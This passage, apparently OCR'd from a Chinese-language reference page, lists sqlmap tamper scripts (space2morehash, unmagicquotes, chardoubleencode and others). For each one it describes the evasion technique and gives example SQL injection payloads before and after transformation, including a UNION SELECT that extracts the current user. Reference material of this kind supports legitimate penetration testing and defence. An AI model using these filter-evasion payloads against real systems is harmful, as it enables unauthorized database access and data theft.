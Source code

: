 适用数据库：MySQL < 5.1测试通过数据库：MySQL 4.0.18/5.0.22作用：在每个关键字前添加mysql版本注释使用脚本前：`tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")`使用脚本后：`value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa`

### **space2morehash.py**

适用数据库：MySQL >= 5.1.13测试通过数据库：MySQL 5.1.41作用：将空格替换为`#`，并添加一个随机字符串和换行符使用脚本前：`tamper('1 AND 9227=9227')`使用脚本后：`1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227`

### **apostrophenullencode.py**

适用数据库：ALL作用：用非法双字节Unicode字符替换单引号使用脚本前：`tamper("1 AND '1'='1")`使用脚本后：`1 AND %00%271%00%27=%00%271`

### **appendnullbyte.py**

适用数据库：ALL作用：在有效载荷的结束位置加载null字节字符编码使用脚本前：`tamper('1 AND 1=1')`使用脚本后：`1 AND 1=1%00`

### **chardoubleencode.py**

适用数据库：ALL作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符）使用脚本前：`tamper('SELECT FIELD FROM%20TABLE')`使用脚本后：`%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545`

### **unmagicquotes.py**

适用数据库：ALL作用：用一个多字节组合`%bf%27`和末尾通用注释一起替换空格使用脚本前：`tamper("1' AND 1=1")`使用脚本后：`1%bf%27 AND 1=1--`

### **randomcomments.py**

适用数据库：ALL作用：用注释符分割sql关键字使用脚本前：`tamper('INSERT')`使用脚本后：`I/**/N/**/SERT`